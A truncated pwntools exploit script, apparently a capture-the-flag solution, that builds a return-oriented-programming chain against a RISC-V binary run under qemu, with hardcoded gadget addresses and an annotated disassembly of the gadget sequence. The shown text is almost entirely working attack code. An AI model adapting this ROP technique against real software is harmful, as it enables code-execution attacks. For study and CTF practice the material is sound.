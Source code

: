 ```python
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

filename = "./main"

elf = ELF(filename)
# io = process(["./qemu-riscv64", "-g", "1234", "main"])
io = process(["./qemu-riscv64", "main"])

def lg(name, val):
    log.info(name+" : "+hex(val))

gets_addr = 0x00016a5a
bss = 0x00000000006f000
gad1 = 0x0001179e
gad2 = 0x00011772
gad3 = 0x0001178e
"""
        00011772 93 07 84 b8     addi       a5,s0,-0x478
        00011776 13 09 09 b9     addi       s2,s2,-0x470
        0001177a 33 09 f9 40     sub        s2,s2,a5
        0001177e 13 59 39 40     srai       s2,s2,0x3
        00011782 63 0e 09 00     beq        s2,zero,LAB_0001179e
        00011786 13 04 84 b8     addi       s0,s0,-0x478
        0001178a 81 44           c.li       s1,0x0
                             LAB_0001178c                                    XREF[1]:     0001179a(j)  
        0001178c 1c 60           c.ld       a5=>->FUN_00010284,0x0(s0=>->FUN_00010250)       = 00010284
                                                                                             = 00010250
        0001178e 56 86           c.mv       a2,s5
        00011790 d2 85           c.mv       a1,s4
        00011792 4e 85           c.mv       a0,s3
        00011794 85 04           c.addi     s1,0x1
        00011796 82 97           c.jalr     a5=>FUN_00010284                                 undefined FUN_00010250()
                                                                                             undefined FUN_00010284()
        00011798 21 04           c.addi     s0,0x8
        0001179a e3 19 99 fe     bne        s2,s1,LAB_0001178c
                             LAB_0001179e                                    XREF[1]:     00011782(j)  
        0001179e e2 70           c.ldsp     ra,0x38(sp)
        000117a0 42 74           c.ldsp     s0,0x30(sp)
        000117a2 a2 74           c.ldsp     s1,0x28(sp)
        000117a4 02 79           c.ldsp     s2,0x20(sp)
        000117a6 e2 69           c.ldsp     s3,0x18(sp)
        000117a8 42 6a           c.ldsp     s4,0x10(sp)
        000117aa a2 6a           c.ldsp     s5,0x8(sp)
        000117ac 21 61           c.addi16sp sp,0x40
        000117ae 82 80           ret
"""

def gen_rop_chain(target, a0=0, a1=0, a2=0):
    payload = flat({
        0x40 * 0 + 0x38: gad2, # jmp to gad2
        0x40 * 0 + 0x30: target + 0x478, # set s0, a5 = s0 - 0x478
        0x40 * 0 + 0x20: target + 0x470, # set s2

        0x40 * 1 + 0x38: gad3, # jmp to gad3
        0x40 * 1 + 0x18: a0, # set s3, a0 = s3
        0x40 * 1 + 0x10: a1, # set s4, a1 = s4
```